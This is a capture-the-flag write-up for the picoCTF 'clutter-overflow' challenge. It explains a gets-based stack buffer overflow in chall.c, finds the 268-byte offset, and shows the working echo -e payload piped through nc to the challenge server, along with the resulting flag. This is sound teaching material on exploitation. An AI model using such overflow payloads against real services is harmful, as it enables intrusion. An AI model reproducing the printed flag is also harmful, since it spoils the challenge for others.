 ## Description

> Clutter, clutter everywhere and not a byte to use.
> `nc mars.picoctf.net 31890`

Author: notdeghost

## Included Files

* chall - the pre-compiled binary
* chall.c - the source code of the program

### Static Analysis

Examining the source code (chall.c), we see that the program sets variable `code` to 0, instantiates a 256-byte buffer called `clutter`, prints out ASCII art of a room, and uses `gets` to fill the buffer `clutter` with user input. Looking further, we see that the flag is returned if the variable `code` matches the goal value `0xdeadbeef`. Knowing that `code` is placed on the stack just before `clutter`, and that `clutter` is filled using the insecure function `gets`, we assume that we can overflow `clutter` and write the value `0xdeadbeef` into `code`.

### Dynamic Analysis

We iteratively run `echo $OVERFLOW | ./chall` , where OVERFLOW is a string of A's of length > 256. We find that 4 bytes overflow into the `code` when the length of OVERFLOW is 268:

```shell
hannah@DESKTOP-HE54UPJ:/mnt/c/Users/Hannah/Desktop/whisnant.hannah/picoCTF/clutter_overflow$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' | ./chall
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0x41414141
code != 0xdeadbeef :(
```

We can also see that the ASCII characters are being converted to hex. 0xde, 0xad, 0xbe, and 0xef are not all typeable ASCII characters, so we have to use the -e option of `echo` to send the correct bytes:

```shell
hannah@DESKTOP-HE54UPJ:/mnt/c/Users/Hannah/Desktop/whisnant.hannah/picoCTF/clutter_overflow$ echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xde\xad\xbe\xef' | ./chall
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xefbeadde
code != 0xdeadbeef :(
```

Now all we have to do is fix a simple endianness issue to get the flag.

## Getting the Flag

```shell
hannah@DESKTOP-HE54UPJ:/mnt/c/Users/Hannah/Desktop/whisnant.hannah/picoCTF/clutter_overflow$ echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde' | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## The Flag

`picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}`